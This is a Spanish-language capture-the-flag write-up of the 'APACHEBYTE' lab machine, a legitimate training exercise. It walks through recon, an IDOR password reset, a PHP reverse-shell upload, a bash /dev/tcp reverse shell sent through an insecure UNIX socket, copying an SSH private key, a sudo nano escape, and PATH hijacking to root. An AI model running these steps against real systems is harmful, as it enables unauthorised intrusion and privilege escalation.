





🔹Máquina: APACHEBYTE
📅 Publicado el | Categoría: WEB / FILE UPLOAD / IDOR / PRIVESC
📝 Descripción
Este reto consiste en comprometer una aplicación web construida en PHP que gestiona cuentas de usuario, avatares y publicaciones de un blog. La cadena de explotación combina un control de acceso insuficiente (IDOR) en el flujo de cambio de contraseña, una subida de archivos sin ningún tipo de validación, y una escalada de privilegios en varios saltos (www-data → juan → alex → root) apoyada en un socket UNIX inseguro, un binario con permisos sudo mal configurado (GTFOBins) y un secuestro de ruta (path hijacking) por variable de entorno.
🔍 Análisis inicial
Se comenzó con un escaneo de puertos completo:
sudo nmap -p- -open -sS --min-rate 5000 -n -Pn 172.17.0.2
sudo nmap -p22,80 -sCV --min-rate 5000 172.17.0.2

Se detectaron dos puertos abiertos: 22 (SSH) y 80 (Apache, sistema Ubuntu). Se realizó descubrimiento de directorios sobre el servicio web:
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50

El sitio mostraba una página de bienvenida firmada por un usuario "manager", con opciones
de registro y login. Tras registrar una cuenta de prueba, se accedió a la sección
account.php, que exponía dos funcionalidades: subida de avatar y cambio de
contraseña.
💣 Explotación
1) IDOR en el cambio de contraseña
La petición de cambio de contraseña usaba un parámetro numero como único
"token" de validación, sin solicitar la contraseña anterior ni ningún otro mecanismo:
POST /account.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
username=manager&numero=5597527595641235&new_password=1234&confirm_password=1234
Ese "número" resultó ser directamente el nombre del archivo de avatar del usuario, expuesto por un directory listing habilitado sin autenticación:
URL -> http://172.17.0.2/uploads/avatars/
5597527595641235.jpg (avatar del manager)

El backend nunca verificaba que el numero perteneciera realmente al
username indicado, solo que ese valor existiera como nombre de archivo en
algún lado. Con esto se cambió la contraseña del usuario manager sin
conocer la anterior, obteniendo acceso a su panel con rol admin.
2) RCE por subida de archivos sin restricciones
Dentro del dashboard de administrador (dashboard.php) existía una gestión de
publicaciones (posts) con opción de subir imágenes. A diferencia del endpoint de avatar
(que sí validaba extensión y contenido), este endpoint de posts no aplicaba ninguna
restricción: se subió directamente una reverse shell en PHP con extensión
.php, sin necesidad de doble extensión ni ningún otro bypass.

Al editar el post se reveló la ruta exacta donde había quedado guardado el archivo:
<img src="posts/uploads/Untitled.php" alt="Imagen subida" />
Con un listener a la escucha, se accedió directamente a esa ruta y se obtuvo ejecución
remota de comandos como www-data:
nc -nlvp 4444
# En el navegador:
http://172.17.0.2/posts/uploads/Untitled.php

www-data@fc04aa1c7111:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
📈 Escalada de privilegios
1) www-data → juan (credenciales de BD + socket UNIX inseguro)
Revisando el código fuente de la aplicación se encontraron las credenciales de la base de datos en texto plano:
cat /var/www/html/db.php
$host = '127.0.0.1';
$db = 'web_app';
$user = 'website';
$pass = 'jJ2$uR5hR8z@LkT4';
Con esas credenciales se volcó la tabla users, aunque los hashes bcrypt
recuperados no aportaron acceso adicional al sistema (son credenciales de la aplicación
web, no de usuarios del sistema operativo). El vector real de pivote apareció al listar
procesos: un socket UNIX corriendo como el usuario juan, con permisos
abiertos a cualquier usuario:
ps aux | grep -i juan
juan 50 /usr/bin/python3 /home/juan/socket_server.py
find / -writable 2>/dev/null | grep -v "^/proc\|^/sys" | xargs ls -la 2>/dev/null | grep juan
srwxrwxrwx 1 juan juan 0 /tmp/dev.sock
El script del socket ejecutaba directamente cualquier dato recibido con exec(),
sin ningún tipo de sandboxing:
import socket, os
sock_path = "/tmp/dev.sock"
server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind(sock_path)
os.chmod(sock_path, 0o777)
server.listen(1)
while True:
conn, _ = server.accept()
data = conn.recv(2048)
if data:
try:
exec(data.decode(), {"__builtins__": __builtins__})
conn.send(b"Executed.\n")
except Exception as e:
conn.send(str(e).encode())
conn.close()
Se abusó de este exec() sin restricciones para lanzar una reverse shell en el
contexto de juan:
nc -nlvp 4447
echo "__import__('os').system('bash -c \"bash -i >& /dev/tcp/192.168.1.212/4447 >&1 0>&1\"')" | nc -U /tmp/dev.sock
juan@d7a3f8de6cba:~$ id
uid=1001(juan) gid=1001(juan) groups=1001(juan)
Dentro del home de juan también se encontró una clave privada SSH, lo que
permitió reemplazar la shell inestable por una sesión persistente:
cat ~/.ssh/id_rsa
# (copiar a la máquina atacante como juan-id_rsa)
chmod 600 juan-id_rsa
ssh -i juan-id_rsa juan@172.17.0.2
2) juan → alex (GTFOBins: sudo nano)
El usuario juan tenía permiso para ejecutar nano como
alex sin contraseña:
juan@d7a3f8de6cba:~$ sudo -l
User juan may run the following commands on d7a3f8de6cba:
(alex) NOPASSWD: /bin/nano
Técnica documentada en GTFOBins para escapar de nano hacia una shell
interactiva:
sudo -u alex /bin/nano
# Dentro del editor: Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0
$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex)
3) alex → root (path hijacking en report_tool)
El usuario alex podía ejecutar un script propio como cualquier usuario, sin
contraseña:
$ sudo -l
User alex may run the following commands on d7a3f8de6cba:
(ALL) NOPASSWD: /usr/local/bin/report_tool
El contenido del script reveló dos fallas de diseño: la ruta del archivo de configuración
era relativa (./report_tool.conf, dependiente del directorio desde el que se
invoque) y, si existía, permitía anteponer un directorio arbitrario al PATH
antes de ejecutar date sin ruta absoluta:
#!/bin/bash
CONF_FILE="./report_tool.conf"
if [ -r "$CONF_FILE" ]; then
source "$CONF_FILE"
if [ -n "$OVERRIDE_PATH" ]; then
export PATH="$OVERRIDE_PATH:$PATH"
fi
fi
exec date
Se construyó un date falso que otorga SUID a /bin/bash, y se
forzó su ejecución colocando el archivo de configuración en el directorio de trabajo
actual:
cd /home/alex
mkdir evil
echo '#!/bin/bash' > evil/date
echo 'chmod +s /bin/bash' >> evil/date
chmod +x evil/date
echo 'OVERRIDE_PATH="/home/alex/evil"' > report_tool.conf
sudo /usr/local/bin/report_tool
/bin/bash -p
bash-5.2# id
uid=1000(alex) gid=1000(alex) euid=0(root) egid=0(root) groups=0(root),1000(alex)
🏆 Resultado
Se obtuvo acceso root confirmado con id, combinando cinco fallas
encadenadas: un IDOR en el reset de contraseña apoyado en un directory listing abierto,
una subida de archivos sin ninguna validación de tipo o contenido, un socket UNIX
world-writable ejecutando código arbitrario sin sandboxing, un binario con permisos sudo
mal configurado (GTFOBins: nano), y un secuestro de ruta (path hijacking)
por variable de entorno en un script con ruta de configuración relativa. No se encontró
flag en /root (la plataforma de origen de esta máquina no utiliza flags,
el objetivo es demostrar el acceso root).